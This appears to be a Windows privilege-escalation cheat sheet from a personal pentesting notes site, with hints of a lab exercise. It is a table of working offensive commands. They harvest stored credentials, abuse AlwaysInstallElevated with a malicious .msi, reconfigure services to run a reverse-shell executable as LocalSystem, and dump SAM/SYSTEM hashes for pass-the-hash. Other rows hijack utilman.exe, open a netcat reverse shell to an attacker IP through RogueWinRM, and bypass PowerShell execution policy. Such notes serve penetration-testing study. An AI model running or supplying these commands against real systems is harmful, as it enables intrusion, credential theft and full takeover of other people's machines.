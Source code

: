 # Windows PrivEsc CheatSheet
[Home](../../index.md) | [CheatSheets](../../cheatsheets.md) | [Theory](../../theory.md) | [About](../../about.md) | [Back](../WindowsPrivEsc.md)

## Windows Privilege Escalation:
| Command/File                                                                                                                                                                 	| Notes                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    	|
|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------	|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------	|
| C:\Unattend.xml<br>C:\Windows\Panther\Unattend.xml<br>C:\Windows\Panther\Unattend\Unattend.xml<br>C:\Windows\system32\sysprep.inf<br>C:\Windows\system32\sysprep\sysprep.xml 	| Check these files for secrets such as passwords of domain users, including administrators.<br>Installations deployed using Windows Deployment Services might contain contain these files<br>and have credentials hardcoded into them.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    	|
| type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt                                                                           	| Get PowerShell history, similar to .bash_history in Linux, might find credentials<br>in commands entered into PowerShell cmdlets.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        	|
| cmdkey /list                                                                                                                                                                 	| Check for saved credentials.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             	|
| runas /savecred /user:admin cmd.exe                                                                                                                                          	| Run cmd.exe  as a user using saved credentials identified from cmdkey /list command                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      	|
| type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config \| findstr connectionString                                                                           	| Check for database passwords stored in the connection string in web.config files, note the web.config<br>file might be in a different location to the one specified here.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                	|
| reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s                                                                                               	| Check for stored proxy credentials.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      	|
| schtasks /query /tn vulntask /fo list /v                                                                                                                                     	| List scheduled tasks on the host, focus on the "Task To Run" option of the scheduled task as well as the author.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         	|
| icacls <PATH_TO_FILE>                                                                                                                                                        	| Check the permissions associated with a file, useful for scheduled task PrivEsc.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         	|
| schtasks /run /tn <TASK_NAME>                                                                                                                                                	| Run a scheduled task manually, note you must have permissions to do this                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 	|
| reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer<br>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer                                                 	| Check if we can install windows installer files (.msi files) with system privileges, both these values<br>must be set for this to work 0x1.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              	|
| msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi                                                                                                                          	| Execute a .msi payload on the host, exploiting the always install elevated feature.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      	|
| sc.exe qc <SERVICE_NAME>                                                                                                                                                     	| Query information about the configuration of a service, e.g BINARY_PATH_NAME, START_TYPE.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                	|
| reg query HKLM\SYSTEM\CurrentControlSet\Services\<SERVICE_NAME>                                                                                                              	| Query information from the registry about a specific service. If a DACL has been configured for the service, <br>it will be stored in a subkey called Security.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          	|
| icacls <SERVICE_EXECUTABLE> /grant Everyone:F<br>sc.exe stop <SERVICE_NAME>; sc.exe start <SERVICE_NAME>                                                                     	| Grant full control over a service executable, and restart a service that we have modified the executable for, <br>note if we're using PowerShell we must use 'sc.exe' not just 'sc' since 'sc' is an alias for Set-Content.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              	|
| "C:\Program Files\RealVNC\VNC Server\vncserver.exe"                                                                                                                          	| Example of an unquoted service path, we can identify unquoted service paths using sc.exe,                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                	|
| accesschk64.exe /accepteula -qlc <SERVICE_NAME>                                                                                                                              	| Use accesschk.exe part of SysInternals to inspect the DACL of a service, should the service DACL (not the service's executable DACL) <br>allow you to modify the configuration of a service, you will be able to reconfigure the service. This will allow you to point to any <br>executable you need and run it with any account you prefer, including SYSTEM itself.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   	|
| sc.exe config <SERVICE_NAME> binPath= "C:\Users\thm-unpriv\revshell.exe" obj= LocalSystem                                                                                    	| Reconfigure a service to use our malicious executable, we verify that we can reconfigure a service from the DACL using accesschk,<br>we specify which account to run the service in this case LocalSystem since it has the most privileges.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              	|
| whoami /priv                                                                                                                                                                 	| Display privileges associated with the current account. https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     	|
| reg save hklm\system C:\Users\<USERNAME>\system.hive<br>reg save hklm\sam C:\Users\<USERNAME>\sam.hive                                                                       	| If our user has the SeBackup / SeRestore set, we can read and write to any file in the system, ignoring any DACL in place                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                	|
| impacket-smbserver -smb2support -username <USERNAME> -password <PASSWORD> public <SHARENAME>                                                                                 	| Create an SMB server using impacket on our attacking machine, we can copy files from the target machine to our local machine using <br>the "copy" command. Note that we must make a directory called <SHARENAME> first and set its permissions <br>appropriately e.g chmod 777 <SHARENAME>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               	|
| impacket-secretsdump -sam sam.hive -system system.hive LOCAL                                                                                                                 	| Use impacket to dump password hashes from the exported SAM and SYSTEM files.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             	|
| impacket-psexec -hashes <HASH> <USERNAME>@<IP>                                                                                                                               	| Use impacket to perform a pass-the-hash attack using extracted password hashes.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          	|
| takeown /f <FILE_PATH><br>icacls <FILE_PATH> /grant <USERNAME>:F<br>copy cmd.exe <FILE_PATH>                                                                                 	| Take ownership over a file, note that this is only possible if the SeTakeOwnershipPrivileges in available for the compromised<br>user account. Run "whoami /priv" to verify this. Being the owner of the file doesn't grant us full control over it, but being <br>the owner you can assign yourself any privileges you need. To give your user full permissions over utilman.exe you can use <br>the icacls command. Works well with executables like utilman.exe which run with SYSTEM privileges.                                                                                                                                                                                                                                                                                                                                                     	|
| RogueWinRM.exe -p "nc64.exe" -a "-e cmd.exe <IP> <PORT>"                                                                                                                     	| Run the RogueWinRM exploit using a compromised Service Account with SeImpersonatePrivilege / SeAssignPrimaryToken privileges. <br>The RogueWinRM exploit is possible because whenever a user (including unprivileged users) starts the BITS service in Windows, <br>it automatically creates a connection to port 5985 using SYSTEM privileges. Port 5985 is typically used for the WinRM service, <br>which is simply a port that exposes a Powershell console to be used remotely through the network.<br><br>If, for some reason, the WinRM service isn't running on the victim server, an attacker can start a fake WinRM service on port <br>5985/tcp and catch the authentication attempt made by the BITS service when starting. If the attacker has SeImpersonate privileges, <br>they can execute any command on behalf of the connecting user. 	|
| wmic product get name,version,vendor                                                                                                                                         	| You can use the wmic tool to list software installed on the target system and its versions. The command below will dump information <br>it can gather on installed software.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             	|
| https://github.com/itm4n/PrivescCheck<br>https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS<br>https://github.com/bitsadmin/wesng                                   	| Some useful tools for automating privilege escalation, note remember to run Set-ExecutionPolicy Bypass -Scope process -Force before<br>attempting to run PowerShell scripts in the event that the Execution Policy is restricted.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        	|
